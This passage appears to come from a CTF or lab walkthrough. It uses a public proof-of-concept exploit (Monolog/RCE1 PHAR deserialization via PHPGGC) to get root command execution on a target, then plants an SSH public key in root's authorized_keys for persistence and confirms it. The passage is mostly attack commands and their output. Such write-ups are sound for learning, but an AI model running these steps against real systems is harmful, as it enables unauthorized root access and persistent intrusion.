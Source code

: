 We can now go ahead and follow the usage steps outlined in the GitHub POC post.

```zsh
0x3ds@kali $ ./exploit.py http://127.0.0.1:8000 Monolog/RCE1 id

[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

And *voila*, we are able to execute commands on the target host as the `root` user!



---
### Post Exploitation

We can use this to put our public key contents from our SSH key pair we generated earlier into the `authorized_keys` file within the `.ssh/` directory of the root user. This would allow us to then access the target host as the root user via SSH.

First, we need to copy the contents from our `key.pub` file we generated earlier and prepare our command.

```zsh
0x3ds@kali $ ./exploit.py http://127.0.0.1:8000 Monolog/RCE1 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG1wvYwG+QR1uch2fPqaDaRbz6A1DWxVaa7QySQhNGZR 0x3ds@kali" >> ~/.ssh/authorized_keys'

[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
[+] Logs cleared
```

Since there is no output confirming if it was successful, we can run another command to read the contents of the `~/.ssh/authorized_keys` file to see if it was successfully echoed into it or not.

```zsh
0x3ds@kali $ ./exploit.py http://127.0.0.1:8000 Monolog/RCE1 'cat  ~/.ssh/authorized_keys'

[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG1wvYwG+QR1uch2fPqaDaRbz6A1DWxVaa7QySQhNGZR 0x3ds@kali

[i] Trying to clear logs
[+] Logs cleared
```
